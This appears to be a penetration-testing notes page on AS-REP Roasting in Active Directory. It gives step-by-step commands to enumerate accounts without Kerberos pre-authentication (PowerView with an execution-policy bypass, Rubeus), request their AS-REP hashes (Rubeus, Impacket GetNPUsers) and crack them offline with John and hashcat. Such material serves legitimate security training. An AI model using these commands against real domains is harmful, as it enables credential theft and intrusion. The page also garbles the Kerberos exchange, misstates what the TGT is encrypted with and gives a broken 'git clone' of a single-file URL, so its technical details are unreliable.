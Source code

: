 # AS-REP Roasting

The AS-REP Roasting technique enables attackers to acquire password hashes of user accounts that have **deactivated** Kerberos pre-authentication. This method entails transmitting an Authentication Server Request (AS-REQ) message to the domain controller (DC). If pre-authentication is disabled, the DC will return an AS-REP message containing encrypted data, including a segment encrypted with the user's password hash. Subsequently, the attacker can utilize this information to attempt cracking the user's password offline.

**AS-REP Roasting** is a technique used to exploit a weakness in the Kerberos authentication procotol.\
In the Kerberos protocol, when a user wants to authenticate to a service, they send an **Authentication Service request (AS-REQ)**  to the **Key Authentication Service reply (AS-REP)**, which includes a **ticket-granting ticket (TGT)**. The TGT is encrypted using the user's password hash.

AS-REP Roasting takes advantage of the fact that some user accounts in AD may have the "**Do not require Kerberos preauthentication**" option **enabled**. This option allows the AS-REP to be requested without the need for the user's password.

#### AS-REP Roasting Method:

* **Find vulnerable users** of the domain with tools
* Do a **AS-REP attack** to get user TGT
* **Crack** the TGT obtained earlier&#x20;

## Find vulnerable user

First we have to detect all user in the domain that has "**Do not require Kerberos preauthentication**" option **enabled**.

### Detect with PowerView

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

```powershell
# import powerview module
powershell -ep bypass
. .\PATH\TO\PowerView.ps1
```

{% code title="Detect with PowerView " %}
```powershell
Get-Domainuser | Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }
Get-DomainUser -PreauthNotRequired -verbose
```
{% endcode %}

### Detect with Rubeus.exe

```powershell
.\Rubeus.exe asreproast
```



## AS-REP Attack

With this attack with can get the TGT of the vulnerable user.

### AS-REP with Rubeus.exe

{% embed url="https://github.com/GhostPack/Rubeus" %}

Transfer the executable into the target and run it with appropriate tag.

{% content-ref url="../../executive-pt/post-exploitation/trasferring-files.md" %}
[trasferring-files.md](../../executive-pt/post-exploitation/trasferring-files.md)
{% endcontent-ref %}

```powershell
.\Rubeus.exe asreproast /usr:$USER /outfile:tgthash.txt
.\Rubeus.exe asreproast /format:hashcat /outfile:tgthash.txt
```

### GetNPUsers.py

The **GetNPUsers.py** script from Impacket can be used to request a TGT ticket and dump the hash.

{% embed url="https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py" %}

Clone the script in your kali machine and use it with opportune flags.

```bash
git clone https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```

```bash
GetNPUsers.py $DOMAIN_NAME.local/$USER -dc-ip $DC_IP -no-pass
```

```bash
impacket-GetNPUsers $DOMAIN/$USER -dc-ip $DC_IP -dc-host $DOMAIN -no-pass
```

Save the hash in the file and move on.

## Crack the TGT

Once we have a output file with TGT ticket of a user in the Domain, we can try to crack it with JtR or Hashcat.

{% code overflow="wrap" %}
```bash
john PATH/TO/$tgt_hash.txt --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

```bash
john $tgt_hash.txt --fork=4 -w=/PATH/TO/rockyou.txt
```

```bash
hashcat -m 18200 --force -a 0 $tgt_hash.txt PASS_LIST.txt
```










